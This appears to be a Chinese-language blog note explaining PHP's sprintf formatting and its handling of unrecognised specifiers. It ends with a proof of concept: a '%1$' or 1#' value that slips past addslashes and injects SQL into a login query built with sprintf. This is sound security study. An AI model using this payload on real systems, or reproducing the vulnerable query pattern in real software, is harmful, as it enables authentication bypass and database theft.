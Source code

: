 函数定义`sprintf(string $format, mixed ...$values): string`

返回一个根据格式化字符串`format`生成的字符串

```php
<?php
var_dump(sprintf('_%s_','asdf'));
var_dump(sprintf('_%d_',1234));
```

```
string '_asdf_' (length=6)
string '_1234_' (length=6)
```

- 占位符引用

占位符可以重复使用,当使用参数替换时`n$`位置指示符必须紧跟在百分号之后

```php
<?php
var_dump(sprintf('%2$10s,%1$d,%1$d,%2$\'!10s',123,'asdf'));
```

```
string '      asdf,123,123,!!!!!!asdf' (length=29)
```

- 字符串填充

填充方式`%'[要填充的字符][长度]s`

```php
<?php
var_dump(sprintf("_%6s_",'asdf'));
var_dump(sprintf("_% 6s_",'asdf'));
var_dump(sprintf("_%6 s_",'asdf'));
var_dump(sprintf("_%'!10s_",'asdf'));
var_dump(sprintf("_%'@10s_",'asdf'));
var_dump(sprintf("_%''10s_",'asdf'));
var_dump(sprintf("_%10s_",'asdfasdfasdf'));
var_dump(sprintf("_%'!10s_",'asdfasdfasdf'));
```

```
string '_  asdf_' (length=8)
string '_  asdf_' (length=8)
string '_s_' (length=3)
string '_!!!!!!asdf_' (length=12)
string '_@@@@@@asdf_' (length=12)
string '_''''''asdf_' (length=12)
string '_asdfasdfasdf_' (length=14)
string '_asdfasdfasdf_' (length=14)
```

php支持的说明符如下

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202271344428.png)

php对说明符的处理如下,遇到无法识别的说明符直接break

```cpp
switch (*format) {
	case 's': {
		zend_string *t;
		zend_string *str = zval_get_tmp_string(tmp, &t);
		php_sprintf_appendstring(&result, &outpos,ZSTR_VAL(str),width, precision, padding,alignment,ZSTR_LEN(str),0, expprec, 0);
		zend_tmp_string_release(t);
		break;
	}

	case 'd':
		php_sprintf_appendint(&result, &outpos, zval_get_long(tmp), width, padding, alignment, always_sign);
		break;

	case 'u':
		php_sprintf_appenduint(&result, &outpos, zval_get_long(tmp), width, padding, alignment);
		break;

	case 'g':
	case 'G':
	case 'e':
	case 'E':
	case 'f':
	case 'F':
		php_sprintf_appenddouble(&result, &outpos,zval_get_double(tmp),width, padding, alignment,precision, adjusting,*format, always_sign);
		break;

	case 'c':
		php_sprintf_appendchar(&result, &outpos,(char) zval_get_long(tmp));
		break;

	case 'o':
		php_sprintf_append2n(&result, &outpos,zval_get_long(tmp),width, padding, alignment, 3,hexchars, expprec);
		break;

	case 'x':
		php_sprintf_append2n(&result, &outpos,zval_get_long(tmp),width, padding, alignment, 4,hexchars, expprec);
		break;

	case 'X':
		php_sprintf_append2n(&result, &outpos,zval_get_long(tmp),width, padding, alignment, 4,HEXCHARS, expprec);
		break;

	case 'b':
		php_sprintf_append2n(&result, &outpos,zval_get_long(tmp),width, padding, alignment, 1,hexchars, expprec);
		break;

	case '%':
		php_sprintf_appendchar(&result, &outpos, '%');
		break;

	case '\0':
		if (!format_len) {
            goto exit;
		}
		break;

	default:
		break;
}
```

对于无法处理的说明符如`%a`和`%1$a`等,直接忽略,处理剩余字符

```php
<?php
var_dump(sprintf('%a','asdf'));
var_dump(sprintf('%1$a','asdf'));
var_dump(sprintf('%1$10a','asdf'));
var_dump(sprintf('%1$as','asdf'));
var_dump(sprintf('%1$a%s','asdf'));
```

```
string '' (length=0)
string '' (length=0)
string '' (length=0)
string 's' (length=1)
string 'asdf' (length=4)
```

- 利用方式

利用无法处理的说明符直接忽略这一特性,可以进行SQL注入

```php
<?php
$db = new mysqli("192.168.1.120", "root", "root", "sql_injection_test");
if (mysqli_connect_errno()) { #检查连接
    printf("Connect failed: %s\n", mysqli_connect_error());
    exit();
}

$password = "%1$' or 1#";
var_dump($password);
$password = addslashes($password);
var_dump($password);
$sql = "select * from user where username='%s' and password='$password';";
$username = "admin";
$query=sprintf($sql, $username);

var_dump($query);
$result = $db->query($query);
var_dump($result->fetch_row());
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202271454990.png)